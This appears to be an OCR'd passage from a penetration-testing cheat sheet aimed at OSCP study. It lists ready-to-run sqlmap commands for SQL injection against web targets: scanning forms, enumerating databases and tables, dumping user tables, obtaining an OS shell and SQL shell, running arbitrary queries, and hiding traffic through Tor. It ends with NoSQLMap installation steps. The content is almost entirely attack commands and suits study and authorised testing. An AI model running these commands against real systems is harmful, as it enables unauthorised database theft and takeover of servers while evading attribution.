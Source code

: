     *   Targeted sqlmap scan

        `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump`

    *   Scan url for union + error based injection with mysql backend and use a random user agent + database dump

        `sqlmap -o -u http://$ip/index.php --forms --dbs`

        `sqlmap -o -u "http://$ip/form/" --forms`

    *   Sqlmap check form for injection

        `sqlmap -o -u "http://$ip/vuln-form" --forms -D database-name -T users --dump`

    *   Enumerate databases

        `sqlmap --dbms=mysql -u "$URL" --dbs`

    *   Enumerate tables from a specific database

        `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables`

    *   Dump table data from a specific database and table

        `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump`

    *   Specify parameter to exploit

        `sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2`

    *   Specify parameter to exploit in 'nice' URIs (exploits param1)

        `sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs`

    *   Get OS shell

        `sqlmap --dbms=mysql -u "$URL" --os-shell`

    *   Get SQL shell

        `sqlmap --dbms=mysql -u "$URL" --sql-shell`

    *   SQL query

        `sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"`

    *   Use Tor Socks5 proxy

        `sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs`

*   **NoSQLMap Examples** You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`). NoSQLMap can help you to automate NoSQLDatabase enumeration.

*   NoSQLMap Installation

    <div class="highlight highlight-source-shell">

    <pre>git clone https://github.com/codingo/NoSQLMap.git
    <span class="pl-c1">cd</span> NoSQLMap/
    ls
    pip install couchdb
    pip install pbkdf2
    pip install ipcalc
    python nosqlmap.py</pre>
